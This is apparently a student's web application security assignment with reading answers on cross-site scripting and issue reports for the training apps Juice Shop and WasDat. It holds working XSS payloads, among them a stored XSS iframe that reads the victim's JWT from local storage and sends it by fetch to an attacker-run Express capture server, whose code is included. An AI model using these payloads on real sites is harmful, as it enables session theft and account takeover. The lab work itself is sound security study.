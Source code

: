 # Assignment 4

Student ID: AC3837

Student name: Thanaphon Sombunkaeo

Group ID: TTV19S1

## First part A7:2017 Cross-site scripting (10 pts)

1. [Reading report] RWBH Chapter 7: Cross-Site Scripting (pp. 55-70) (3 pts) 

   - What factors make XSS vulnerabilities more critical and why (max 2 points, 1 point per factor)
  - It can read the DOM element or cookies that might contain the sensitive data of user and attacker can send it to them.
     - The malicious script can speard to other user. According to the Myspace example in the book, the malicious script can copy the to user's profile and when another user visite the victim profile, they will also infected by that malicious script.
   - What are the two main types of XSS and how do they differ from each other? (1 point)
     - The two main types of XSS are reflected XSS and stored XSS. The difference is that reflected XSS occur when victim open the link that contains the malicious script on the user's web browser (happend on user's web browser). In contrast, stored XSS is an injection that attacker inject malicious scripts on the server (happend on server) such as some field in the database.
   
2. [Issue report] **Target => Juice Shop**: DOM XSS (2 pts)

   **Title:** Attcker enable to perform DOM XSS to search input.

   **Description:** Attacker can fill in javascript on seacrh input that will be appended to the query pamater. Web app use that search term to display in HTML which means that javascript will be executing. In this case, attacker try to alter "xss" that embeded in iframe.

   **Step to produce:**

   - Go to `localhost:3000/#/` 

   - Paste and enter the following search term in to search input.

     ```html
     <iframe src="javascript:alert(`xss`)">
     ```

   - Here is the result

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 06.10.29.png" alt="Screen Shot 2565-02-09 at 06.10.29" style="zoom:50%;" />

   **Impact estimation:** Medium serverity because attacker can embeded the malicious script in th search term then sent this link to some user. The scipt might try to get sensitive data such as cookie and send back to attcker's server.

   **Mitigation:**

   - Sanitize the character of search input so the search term will not contains angle bracket, quote. That means attacker cannot injtec the HTML to embeded the malicious javascript.

3. [Issue report] **Target => WasDat**: Stored XSS w/ token capture (max 5 points) 

   **Title:** Attcker can perform stored XSS to capture the JWT of victim.

   **Description:** Attcker can inject the body of new article feature to embeded the javscript that get the JWT of victim from local storage and then sent it to attacker's server.

   **Step to produce:**

   - Log in as any user and create new article in `/#/editor`

   - Fill in any title, article about, and tags but fill in the body of article as shown below

     ```html
     <iframe src="javascript:alert(`some payload`)">
     ```

     This script will be execute and alert "some payload" when user view article.

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 06.39.20.png" alt="Screen Shot 2565-02-09 at 06.39.20" style="zoom:50%;" />

   - In order to capture JWT of use we just alert the `window.localStorage.id_token` as shown below (create new article with the following body)

     ```html
     <iframe src="javascript:alert(window.localStorage.id_token)">
     ```

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 08.39.11.png" alt="Screen Shot 2565-02-09 at 08.39.11" style="zoom:50%;" />

     When user view this article, it will alert the JWT of user.

   - Create simple express server run on port 5050

     ```javascript
     const express = require('express')
     const app = express()
     const port = 5050
     
     app.get('/attack', (req, res) => {
       console.log(req.query.JWT)
       res.send(`JWT is ${req.query.JWT}`)
     })
     
     app.listen(port, () => {
       console.log(`Example app listening on port ${port}`)
     })
     ```

   - Create new article with following body to make the HTTP request to server and send JWT in the parameter

     ```html
     <iframe src="javascript:var url = new URL('http://localhost:5050/attack');var params={JWT:window.localStorage.id_token};url.search = new URLSearchParams(params).toString();fetch(url)">
     ```

   - After user view the article, we can capture the victim's JWT from console log as shown below

     ![Screen Shot 2565-02-09 at 09.46.16](/Users/boyplus/Desktop/Screen Shot 2565-02-09 at 09.46.16.png)

   **Impact estimation:** High serverity because attacker can capture the JWT of user whenever user view the article that attacker create. That means attacker can control the victim's account.

   **Mitigation:**

   - Sanitize every input field to prevent the XSS
   - use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way we intend.

   

## Second part A8:2017 Insecure deserialization (10 pts)

1. [Watch and answer] (3 pts) 

   Based on lecture videos try to explain the terms serialization and deserialization used in computer science 

2. [Issue report] WasDat Insecure Deserialization (7 pts)